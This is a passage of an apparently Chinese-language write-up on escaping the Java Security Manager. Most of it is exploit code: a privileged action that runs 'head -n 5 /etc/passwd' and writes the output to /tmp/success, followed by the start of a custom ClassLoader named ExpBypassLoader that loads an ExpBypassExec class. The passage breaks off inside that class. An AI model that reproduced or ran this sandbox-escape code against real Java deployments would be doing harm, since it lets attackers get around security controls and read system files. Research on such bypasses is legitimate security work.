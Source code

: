```bash
        AccessController.doPrivileged(new PrivilegedAction() {
            public Object run() {
                try {
                    String command = "head -n 5 /etc/passwd";
                    ProcessBuilder builder = new ProcessBuilder(command.split("\\s+"));
                    Process process = builder.start();
                    BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
                    String line = reader.readLine();
                    String res = "";
                    while (line != null) {
                        res = res + line + "\n";
                        line = reader.readLine();
                    }
                    reader.close();
                    System.out.println(res);
                    new File("/tmp/success").createNewFile();
                    FileOutputStream stream = new FileOutputStream("/tmp/success");
                    stream.write(res.getBytes());
                    return null;
                } catch (Exception e) {
                    e.printStackTrace();
                    return null;
                }
            }
        });
    }
}
```

自定义 ClassLoader

```bash
package zk_backup_0.configs.conf1;

import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.net.URL;
import java.nio.ByteBuffer;
import java.nio.channels.Channels;
import java.nio.channels.FileChannel;
import java.nio.channels.WritableByteChannel;
import java.security.*;
import java.security.cert.Certificate;
import java.util.Arrays;

public class ExpBypassLoader extends ClassLoader {
    public ExpBypassLoader() {}

    public ExpBypassLoader(ClassLoader loader) {
        super(loader);
    }

    @Override
    public Class<?> loadClass(String name) throws ClassNotFoundException {
        if (name.contains("ExpBypassExec")) {
            return findClass(name);
        }
        return super.loadClass(name);
    }

    @Override
    protected Class<?> findClass(String name) throws ClassNotFoundException {
```
